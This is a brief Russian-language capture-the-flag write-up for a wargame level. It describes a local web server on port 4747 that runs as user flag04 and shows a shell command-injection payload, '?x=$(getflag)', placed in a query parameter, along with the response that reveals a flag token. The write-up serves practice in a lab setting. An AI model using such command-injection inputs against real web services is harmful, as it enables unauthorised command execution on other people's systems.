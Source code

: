 Здесь нам доступен webserver на localhost:4747

Видим что скрипт запускается от пользователя flag04

Заходим в постман и пытаемся обратиться по адресу localhost:4747?x=$(getflag)

Response:
```bash
Check flag.Here is your token : ne2searoevaevoem4ov4ar8ap
```

